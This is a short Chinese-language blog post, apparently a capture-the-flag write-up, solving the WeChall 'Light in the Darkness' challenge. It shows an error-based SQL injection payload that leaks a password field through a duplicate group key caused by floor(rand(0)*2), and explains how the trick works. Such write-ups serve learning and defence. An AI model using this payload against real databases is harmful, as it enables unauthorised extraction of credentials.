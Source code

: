 ```yaml
---
title: Light in the Darkness
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/06/20/light-in-the-darkness
  - /writeup/2014/06/20/light-in-the-darkness/
tags:
  - sql
  - wechall
---
```

[http://www.wechall.net/challenge/Mawekl/light\_in\_the_darkness/index.php][1]  
这道题的错误会回显，而且限制要在2次query内得到答案，所以用error based：  
<pre>' or (select count(*) from information_schema.tables group by concat(password,floor(rand(0)*2)))-- </pre>

至于为什么这样会出错，可以看这里：  
<http://stackoverflow.com/questions/11787558/sql-injection-attack-what-does-this-do>  
简单地说，`floor(rand(0)*2)`会得到0,1,1,0&#8230;&#8230;第2个和第3个重复的1会造成重复的group_key。而且我们需要一个行数大于3的表，所以选择`information_schema`

 [1]: http://www.wechall.net/challenge/Mawekl/light_in_the_darkness/index.php
